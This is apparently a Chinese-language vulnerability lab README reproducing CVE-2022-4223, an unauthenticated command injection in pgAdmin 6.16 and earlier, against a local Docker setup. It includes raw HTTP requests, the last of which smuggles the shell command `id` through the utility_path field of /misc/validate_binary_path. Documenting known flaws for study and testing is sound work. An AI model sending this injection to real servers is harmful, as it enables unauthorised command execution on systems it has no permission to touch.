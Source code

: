 # pgAdmin <= 6.16 无授权远程命令执行漏洞（CVE-2022-4223）

pgAdmin是一个著名的PostgreSQL数据库管理平台。

pgAdmin包含一个HTTP API可以用来让用户选择并验证额外的PostgreSQL套件，比如pg_dump和pg_restore。但在其6.16版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- <https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595>
- <https://github.com/advisories/GHSA-3v6v-2x6p-32mc>

## 漏洞环境

执行如下命令启动一个pgAdmin 6.16服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到pgAdmin默认的登录页面。

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取CSRF token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close


```

在返回包中拿到一个新的session id和csrf token：

![](1.png)

然后，将获取到的session id和csrf token填写进下面的数据包并发送：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：

![](2.png)
